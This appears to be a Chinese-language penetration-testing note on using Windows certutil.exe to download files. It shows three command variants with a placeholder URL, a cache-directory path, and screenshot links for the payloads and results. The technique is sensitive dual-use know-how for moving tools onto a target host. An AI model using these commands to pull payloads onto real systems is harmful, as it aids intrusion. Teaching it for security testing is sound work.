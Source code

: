 # 渗透测试中的应用
## 下载功能
**(1) 保存在当前路径，文件名称同URI**

语法：
``` shell
certutil.exe -urlcache -split -f 文件url
```

payload:

![title](https://leanote.com/api/file/getImage?fileId=5da1873dab64411aeb0009ca)

效果：

如图，没有问题：
![title](https://leanote.com/api/file/getImage?fileId=5da186a9ab64411aeb0009c3)


**(2) 保存在当前路径，指定保存文件名称**

语法：
``` shell
certutil.exe -urlcache -split -f 文件url file.txt
```

payload：

![title](https://leanote.com/api/file/getImage?fileId=5da187b6ab64411aeb0009ce)

效果：
![title](https://leanote.com/api/file/getImage?fileId=5da187e6ab64411aeb0009d6)

**(3) 保存在缓存目录，名称随机**

缓存目录位置： %USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content

语法：

``` shell
certutil.exe -urlcache -f 文件url
```

payload:

![title](https://leanote.com/api/file/getImage?fileId=5da18a3eab64411aeb0009e9)

效果：

![title](https://leanote.com/api/file/getImage?fileId=5da18a95ab64411ce40009c2)

文件名变了。

此种情况无法指定文件名：

如下图，成功写入了。但是文件名还是改变了（根据写入时间确定的文件）。
![title](https://leanote.com/api/file/getImage?fileId=5da18bc7ab64411aeb000a15)
